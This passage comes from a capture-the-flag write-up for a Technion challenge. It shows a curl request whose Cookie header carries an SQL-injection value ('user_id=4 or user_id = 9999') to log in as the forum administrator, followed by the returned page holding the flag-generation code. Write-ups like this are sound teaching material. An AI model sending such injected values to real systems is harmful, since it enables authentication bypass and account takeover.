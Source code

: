 We can see that the administrator has received user ID #4. We should now be able to visit the forum under his user and read his secrets.

```console
root@kali:/media/sf_CTFs/technion/High_School_Project# curl 'http://ctf.cs.technion.ac.il:4010/topic.php?id=1'  -H "Cookie: user_id=4 or user_id = 9999 ; user_name=a; user_pass=a" -s | head -n 35

<!doctype html>
<html>

<head>
<title>Online Forum Project DSW</title>
<link rel="stylesheet" href="style.css">
<link rel="shortcut icon" href="favicon.ico">
</head>

<body>
<h1> Online Forum</h1>
  <div id="wrapper">
  <div id="menu">
      <a class="item" href="index.php"> Home </a>
      <a class="item" href="create_topic.php"> Create a topic</a>
      <a class="item" href="create_cat.php"> Create a category</a>
    </div>

  <div id="userbar">

  <div id="userbar">
    Hello admin! Not you? <a href="signout.php">Sign out</a>  </div>
  </div>

  <div id="content">
<h2>Posts in Flag topic</h2><table border="1">
                      <tr>
                        <th>Post</th>
                        <th>Date and user name</th>
                      </tr><tr><td class="leftpart">import hashlib<br>
password = input('Insert admin password: ')<br>
x1 = hashlib.sha1(password.encode()).hexdigest()<br>
x2 = hashlib.sha1(x1.encode()).hexdigest()[:10]<br>
print('The flag is: cstechnion{A1m0$7_$3cUR3_' + x2 + '}')</td><td class="rightpart">23-11-2020<br>admin</td></tr><tr><td class="leftpart">a</td><td class="rightpart">23-11-2020<br>y</td></tr><tr><td class="leftpart">test2</td><td class="rightpart">23-11-2020<br>revivo</td></tr><tr><td class="leftpart"></td><td class="rightpart">23-11-2020<br>user</td></tr><tr><td class="leftpart">yo send me the flag :(</td><td class="rightpart">23-11-2020<br>user</td></tr><tr><td class="leftpart">WOOHOOO</td><td class="rightpart">24-11-2020<br>matan4</td></tr><tr><td class="leftpart"></td><td class="rightpart">24-11-2020<br>admin3</td></tr><tr><td class="leftpart"></td><td class="rightpart">24-11-2020<br>admin3</td></tr><tr><td class="leftpart">asdasdaxzczc</td><td class="rightpart">24-11-2020<br>asdqwezxc</td></tr><tr><td class="leftpart">asdasdaxzczc</td><td class="rightpart">24-11-2020<br>asdqwezxc</td></tr><tr><td class="leftpart"></td><td class="rightpart">24-11-2020<br>asdqwezxc</td></tr><tr><td class="leftpart">flag?</td><td class="rightpart">24-11-2020<br>asdqwezxc</td></tr><tr><td class="leftpart">flag?</td><td class="rightpart">24-11-2020<br>asdqwezxc</td></tr><tr><td class="leftpart">flag?</td><td class="rightpart">24-11-2020<br>asdqwezxc</td></tr><tr><td class="leftpart">got the flag lol YEET</td><td class="rightpart">25-11-2020<br>admin</td></tr><tr><td class="leftpart">nice flag</td><td class="rightpart">26-11-2020<br>admin</td></tr><tr><td class="leftpart">Nice Flag!</td<br> class="rightpart">26-11-2020<br>admin</td></tr><tr><td class="leftpart">According to all known laws
```
